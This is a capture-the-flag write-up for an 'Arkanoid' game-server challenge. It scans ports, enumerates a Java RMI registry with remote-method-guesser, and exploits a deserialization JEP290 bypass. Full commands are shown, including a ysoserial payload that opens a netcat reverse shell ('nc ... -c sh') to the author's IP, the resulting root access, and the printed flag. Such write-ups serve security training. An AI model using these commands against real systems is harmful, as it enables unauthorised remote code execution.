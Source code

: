 Miscellaneous: Arkanoid
====================================

## Task
Ahoy, officer,

a new server with a video game is to be placed in the ship's relaxation center . Your task is to check whether the server does not contain any vulnerabilities.

May you have fair winds and following seas!

The game server has domain name arkanoid.cns-jv.tcc.

## Solution
Let's scan TCP ports on hostname:

	└─# nmap -p1-65535 arkanoid.cns-jv.tcc
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 16:31 EDT
	Nmap scan report for arkanoid.cns-jv.tcc (10.99.0.102)
	Host is up (0.028s latency).
	Not shown: 65531 closed tcp ports (reset)
	PORT      STATE SERVICE
	8000/tcp  open  http-alt
	32867/tcp open  unknown
	60001/tcp open  unknown
	60002/tcp open  unknown

First interesting port is 8000. Opened in browser, there is arkanoid game, written in JavaScript. According to code, after successful end of the game is called url /score?data=15. And according to headers from HTTP response is running on Java. I've tried to do something with /score URL but shown nothing interesting. So, we can look on other ports:

	└─# nmap -sVC -p60001-60002 arkanoid.cns-jv.tcc 
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 16:35 EDT
	Nmap scan report for arkanoid.cns-jv.tcc (10.99.0.102)
	Host is up (0.019s latency).

	PORT      STATE SERVICE  VERSION
	60001/tcp open  java-rmi Java RMI
	| rmi-dumpregistry: 
	|   jmxrmi
	|      implements javax.management.remote.rmi.RMIServer, 
	|     extends
	|       java.lang.reflect.Proxy
	|       fields
	|           Ljava/lang/reflect/InvocationHandler; h
	|             java.rmi.server.RemoteObjectInvocationHandler
	|             @localhost:60002
	|             extends
	|_              java.rmi.server.RemoteObject
	60002/tcp open  java-rmi Java RMI

Seems interesting. After some investigation and learning about java application I've find out great tool: rmg (https://github.com/qtc-de/remote-method-guesser). So I've downloaded tool and tried some tricks from documentation:

	└─# java -jar rmg.jar enum 10.99.0.102 60001                                          
	[+] RMI registry bound names:
	[+]
	[+]     - jmxrmi
	[+]             --> javax.management.remote.rmi.RMIServer (known class: JMX Server)
	[+]                 Endpoint: localhost:60002  TLS: no  ObjID: [-4e08268b:18b43f4c9a1:-7fff, 2190267234128201716]
	[+]
	[+] RMI server codebase enumeration:
	[+]
	[+]     - The remote server does not expose any codebases.
	[+]
	[+] RMI server String unmarshalling enumeration:
	[+]
	[+]     - Caught ClassNotFoundException during lookup call.
	[+]       --> The type java.lang.String is unmarshalled via readObject().
	[+]       Configuration Status: Outdated
	[+]
	[+] RMI server useCodebaseOnly enumeration:
	[+]
	[+]     - Caught ClassCastException during lookup call.
	[+]       --> The server ignored the provided codebase (useCodebaseOnly=true).
	[+]       Configuration Status: Current Default
	[+]
	[+] RMI registry localhost bypass enumeration (CVE-2019-2684):
	[+]
	[-]     - Caught AccessException during unbindcall.
	[-]       --> The server seems to use a SingleEntryRegistry (probably JMX based).
	[+]       Vulnerability Status: Undecided
	[+]
	[+] RMI Security Manager enumeration:
	[+]
	[+]     - Caught Exception containing 'no security manager' during RMI call.
	[+]       --> The server does not use a Security Manager.
	[+]       Configuration Status: Current Default
	[+]
	[+] RMI server JEP290 enumeration:
	[+]
	[+]     - DGC rejected deserialization of java.util.HashMap (JEP290 is installed).
	[+]       Vulnerability Status: Non Vulnerable
	[+]
	[+] RMI registry JEP290 bypass enumeration:
	[+]
	[+]     - Caught IllegalArgumentException after sending An Trinh gadget.
	[+]       Vulnerability Status: Vulnerable
	[+]
	[+] RMI ActivationSystem enumeration:
	[+]
	[+]     - Caught NoSuchObjectException during activate call (activator not present).
	[+]       Configuration Status: Current Default

Ok, I've found some vulnerability which, regarding to documentation, allows me to run commands on remote system using Trinh gadget. So, read something about Trinh gadget in documentation and let's try to get shell. In one terminal, run netcat:

	└─# nc -lvp 4445                      
	listening on [any] 4445 ..

On second terminal run listener (10.200.0.21 is my IP address assigned on VPN):

	└─# java -jar rmg.jar listen 10.200.0.21 4444 CommonsCollections6 'nc 10.200.0.21 4445 -c sh'
	[+] Creating ysoserial payload... done.
	[+] Creating a JRMPListener on 10.200.0.21:4444.
	[+] Handing off to ysoserial...

And third terminal, perform attack:

	└─# java -jar rmg.jar serial 10.99.0.102 60001 AnTrinh 10.200.0.21:4444 --component reg
	[+] Attempting deserialization attack on RMI Registry endpoint...
	[+]
	[+]     Caught javax.management.BadAttributeValueExpException during deserialization attack.
	[+]     This could be caused by your gadget an the attack probably worked anyway.
	[+]     If it did not work, you can retry with --stack-trace to see the details.

Get back to the first terminal. And try to send id command:

	connect to [10.200.0.21] from arkanoid.cns-jv.tcc [10.99.0.102] 52360
	id
	uid=0(root) gid=0(root) groups=0(root)

Whooohooo, we have root shell! There is nothing what we can't do right now. Just the flag, where is the flag? Long story short: after searching on filesystem even in file's content I tried the most simple thing - let's look on system environment variables:

	env
	HOSTNAME=4eddc08ea861
	HOME=/root
	PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
	XFILESEARCHPATH=/usr/dt/app-defaults/%L/Dt
	NLSPATH=/usr/dt/lib/nls/msg/%L/%N.cat
	JAVA_HOME=/opt/jdk1.8.0_144
	PWD=/opt
	FLAG=FLAG{sEYj-80fd-EtkR-0fHv}

Mission completed :-)
